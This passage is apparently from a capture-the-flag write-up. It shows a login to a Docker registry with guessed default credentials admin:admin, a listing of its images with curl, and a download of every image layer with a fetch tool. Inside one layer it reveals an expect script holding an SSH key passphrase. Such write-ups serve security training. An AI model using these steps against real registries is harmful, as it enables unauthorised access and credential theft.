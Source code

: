 `/v2` is an API endpoint for a Docker registry, which is like a repository for
Docker images, so after reading the documentation, let's login to it.  Trying
some random default credentials, we can login with `admin:admin`:

```
$ docker login docker.registry.htb
Username: admin
Password:
WARNING! Your password will be stored unencrypted in /home/vagrant/.docker/config.json.
Configure a credential helper to remove this warning. See
https://docs.docker.com/engine/reference/commandline/login/#credentials-store

Login Succeeded
```

We can list the available images with a simple http request:
```
$ curl https://admin:admin@docker.registry.htb/v2/_catalog
{"repositories":["bolt-image"]}
```

Let's use [docker_fetch](https://github.com/NotSoSecure/docker_fetch) to fetch all the image layers:
```
$ ./docker_image_fetch.py -u https://admin:admin@docker.registry.htb

[+] List of Repositories:
bolt-image

Which repo would you like to download?:  bolt-image

[+] Available Tags:
latest

Which tag would you like to download?:  latest

Give a directory name:  bolt-image
Now sit back and relax. I will download all the blobs for you in bolt-image directory.
Open the directory, unzip all the files and explore like a Boss.

[+] Downloading Blob: 302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b
[+] Downloading Blob: 3f12770883a63c833eab7652242d55a95aea6e2ecd09e21c29d7d7b354f3d4ee
[+] Downloading Blob: 02666a14e1b55276ecb9812747cb1a95b78056f1d202b087d71096ca0b58c98c
[+] Downloading Blob: c71b0b975ab8204bb66f2b659fa3d568f2d164a620159fc9f9f185d958c352a7
[+] Downloading Blob: 2931a8b44e495489fdbe2bccd7232e99b182034206067a364553841a1f06f791
[+] Downloading Blob: a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
[+] Downloading Blob: f5029279ec1223b70f2cbb2682ab360e1837a2ea59a8d7ff64b38e9eab5fb8c0
[+] Downloading Blob: d9af21273955749bb8250c7a883fcce21647b54f5a685d237bc6b920a2ebad1a
[+] Downloading Blob: 8882c27f669ef315fc231f272965cd5ee8507c0f376855d6f9c012aae0224797
[+] Downloading Blob: f476d66f540886e2bb4d9c8cc8c0f8915bca7d387e536957796ea6c2f8e7dfff
```

After inspecting the layers, one of the most interesting ones turns out to be
`302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b.tar.gz`, which
contains this file:
```
$ cat etc/profile.d/01-ssh.sh
#!/usr/bin/expect -f
#eval `ssh-agent -s`
spawn ssh-add /root/.ssh/id_rsa
expect "Enter passphrase for /root/.ssh/id_rsa:"
send "GkOcz221Ftb3ugog\n";
expect "Identity added: /root/.ssh/id_rsa (/root/.ssh/id_rsa)"
interact
```
